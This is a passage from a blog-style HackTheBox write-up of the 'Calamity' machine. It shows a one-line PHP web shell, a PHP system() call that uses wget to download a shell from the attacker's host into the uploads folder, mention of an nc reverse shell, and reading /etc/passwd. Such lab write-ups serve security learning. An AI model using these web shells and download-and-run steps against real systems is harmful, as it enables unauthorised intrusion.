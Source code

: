 ```yaml
---
title: "HackTheBox - WriteUp 7"
date: 2019-06-09T19:46:08+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Calamity

It just seems in Medium difficulty, however, it is really brainfuck in privilege escalation part.

## Before start

Nmap Scan: 80 and 22, Apache + SSH.

Gobuster Scan: /uploads(200), admin.php(200)

# Normal User

## Reverse shell

Access `admin.php` and you will find the `admin` with password in the comment of the webpage source code, which is: `password is:skoupidotenekes`

![lgnpage](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamati-1.webp)

After you login, you've been told that this page could execute and php code. The question is that this method is submitted via URL params, so you can't submit too long code.

The shortest php webshell is: 

```php
<?=`$_GET[1]`?>
```

Just fired up my AntSword, generate a shell, and then detect if there's `wget`. It works. So write a php command to let it download the shell from the http server, 
Note: The `/var/www/html` is RO-only, you can only upload to `uploads/`

```php
<?php system("wget http://10.10.16.37:8080/te26st.php -o uploads/te26st.php");?>
```

After that, try `nc` to get a reverse shell. But after connection established, it get killed immediately. So what should we do? Check the `/etc/passwd` and found a normal user called `xalvas`, try to access to the home, succeeded. Then we got `user.txt`. However, there's a `intrusions` folder here. Check the content, just logged that there's a crappy IPS which blacklisted some process to run.
